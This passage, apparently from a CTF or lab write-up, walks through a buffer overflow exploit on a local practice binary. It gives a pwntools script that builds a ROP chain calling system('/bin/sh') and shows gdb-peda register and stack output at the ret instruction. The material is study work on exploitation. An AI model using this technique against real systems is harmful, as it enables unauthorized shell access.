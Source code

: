 We get `0x401040` as system() address. (You can also give `0x40116e` which is call system in main, which eventually uses system@plt)

```bash
#!/usr/bin/python3
from pwn import *

p = gdb.debug('./myapp','''
set follow-fork-mode parent
''')

junk =("A"* 112).encode()
shell = "/bin/sh\x00".encode()
pop_r13 = p64(0x401206)
system = p64(0x401040)
null = p64(0x0)

p.sendline(junk + shell + pop_r13 + system + null + null)
p.interactive()
```

Let's run that:
- This is when `rip` reaches `ret` instruction in main:

```bash
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7f6d94b04f33 (<__GI___libc_write+19>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0xf672a0 ("What do you want me to echo back? ", 'A' <repeats 112 times>, "/bin/sh\n")
RDI: 0x7f6d94bd7670 --> 0x0
RBP: 0x68732f6e69622f ('/bin/sh')
RSP: 0x7ffd3143a7f8 --> 0x401206 (<__libc_csu_init+86>: pop    r13)
RIP: 0x4011ac (<main+77>:       ret)
R8 : 0x78 ('x')
R9 : 0x0
R10: 0xfffffffffffff28e
R11: 0x246
R12: 0x401070 (<_start>:        xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:  call   0x401030 <puts@plt>
   0x4011a6 <main+71>:  mov    eax,0x0
   0x4011ab <main+76>:  leave
=> 0x4011ac <main+77>:  ret
   0x4011ad:    nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:  push   r15
   0x4011b2 <__libc_csu_init+2>:        mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:        push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7ffd3143a7f8 --> 0x401206 (<__libc_csu_init+86>:        pop    r13)
0008| 0x7ffd3143a800 --> 0x40116e (<main+15>:   call   0x401040 <system@plt>)
0016| 0x7ffd3143a808 --> 0x0
0024| 0x7ffd3143a810 --> 0x0
0032| 0x7ffd3143a818 --> 0x7f6d94a3c700 (<init_cacheinfo+80>:   sub    ecx,DWORD PTR [rcx+rcx*4-0x20])
0040| 0x7ffd3143a820 --> 0x0
0048| 0x7ffd3143a828 --> 0x76165f7cf4ad4fc4
0056| 0x7ffd3143a830 --> 0x401070 (<_start>:    xor    ebp,ebp)
```